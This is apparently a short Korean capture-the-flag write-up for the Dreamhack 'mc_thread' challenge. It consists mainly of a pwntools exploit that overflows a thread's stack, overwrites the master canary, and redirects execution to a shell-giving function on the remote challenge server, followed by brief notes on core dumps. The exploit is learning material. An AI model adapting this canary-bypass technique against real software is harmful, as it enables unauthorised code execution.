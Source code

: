 **완성 익스플로잇 코드**

```python
from pwn import *

p = remote('host3.dreamhack.games', 22166)
#p = process('./mc_thread')
elf = ELF('./mc_thread')

payload = b'A' * 264
payload += b'A' * 8 # canary
payload += b'B' * 8

payload += p64(elf.symbols['giveshell'])

payload += b'C' * (0x910 - len(payload))
payload += p64(0x404800 - 0x972) # avoid SIGSEGV when self->canceltype = PTHREAD_CANCEL_DEFERRED
payload += b'C' * 0x10

payload += p64(0x4141414141414141) # master canary

inp_sz = len(payload) // 8

p.sendlineafter(b'Size: ', str(inp_sz).encode())
p.sendafter(b'Data: ', payload)
p.interactive()
```

<br>





<img width="1316" height="446" alt="image" src="https://github.com/user-attachments/assets/828fd782-641c-4780-9510-f11197dec17e" />

이렇게 답이 나왔다.   

덤프 코어 파일을 볼 수 있는 방법이 있다는 걸 알았다.  
나중에 분석할 때 정말 유용하게 쓰일 것 같다.  

방법 까먹지 말고 기억해두자
